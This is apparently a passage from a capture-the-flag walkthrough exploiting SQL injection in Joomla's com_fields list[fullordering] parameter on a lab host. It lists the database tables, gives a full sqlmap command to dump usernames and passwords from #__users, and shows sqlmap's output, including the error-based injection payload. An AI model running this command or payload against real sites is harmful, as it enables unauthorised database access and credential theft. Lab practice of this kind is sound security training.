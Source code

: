 ```
| #__menu                    |
| #__messages_cfg            |
| #__messages                |
| #__modules_menu            |
| #__modules                 |
| #__newsfeeds               |
| #__overrider               |
| #__postinstall_messages    |
| #__redirect_links          |
| #__schemas                 |
| #__session                 |
| #__tags                    |
| #__template_styles         |
| #__ucm_base                |
| #__ucm_content             |
| #__ucm_history             |
| #__update_sites_extensions |
| #__update_sites            |
| #__updates                 |
| #__user_keys               |
| #__user_notes              |
| #__user_profiles           |
| #__user_usergroup_map      |
| #__usergroups              |
| #__users                   |
| #__utf8_conversion         |
| #__viewlevels              |
+----------------------------+
```

#列举所有#__users的数据
sqlmap -u "http://10.10.211.216/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --dbms mysql --technique E -D joomla -T "#__users" --columns  -C username,password --dump  --batch

```
[*] starting @ 03:42:08 /2021-09-03/

[03:42:08] [INFO] fetched random HTTP User-Agent header value 'Mozilla/5.0 (X11; U; Linux i686; en-GB; rv:1.8.1.9) Gecko/20071105 Firefox/2.0.0.9' from file '/usr/share/sqlmap/data/txt/user-agents.txt'
[03:42:08] [INFO] testing connection to the target URL
[03:42:09] [WARNING] the web server responded with an HTTP error code (500) which could interfere with the results of the tests
you have not declared cookie(s), while server wants to set its own ('eaa83fe8b963ab08ce9ab7d4a798de05=fqucgm84oqt...koq73blf67'). Do you want to use those [Y/n] Y
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: list[fullordering] (GET)
    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 9274 FROM(SELECT COUNT(*),CONCAT(0x7176707671,(SELECT (ELT(9274=9274,1))),0x717a627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)
---
[03:42:09] [INFO] testing MySQL
[03:42:09] [INFO] confirming MySQL
[03:42:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux CentOS 7
web application technology: PHP 5.6.40, Apache 2.4.6
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[03:42:10] [INFO] fetching columns 'password, username' for table '#__users' in database 'joomla'
[03:42:10] [WARNING] unable to retrieve column names for table '#__users' in database 'joomla'
do you want to use common column existence check? [y/N/q] N
```
